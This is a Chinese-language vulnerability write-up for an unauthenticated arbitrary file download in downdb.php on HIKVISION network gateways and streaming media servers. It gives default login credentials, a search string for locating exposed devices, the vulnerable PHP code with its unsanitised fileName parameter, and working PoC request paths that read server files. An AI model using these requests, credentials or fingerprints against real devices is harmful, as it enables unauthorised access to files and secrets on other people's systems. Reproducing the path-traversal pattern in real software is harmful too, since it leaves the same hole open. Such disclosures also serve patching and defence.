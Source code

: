 # HIKVISION 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 联网网关，流媒体管理服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"杭州海康威视系统技术有限公司 版权所有"</a-checkbox></br>

## 漏洞复现

默认密码：admin/12345

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628150554555-c84e3f6d-2054-4587-950c-5234bc7a12e8.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

验证POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628152149896-c63bae3a-6cc6-402a-b234-cacb307547fc.png)



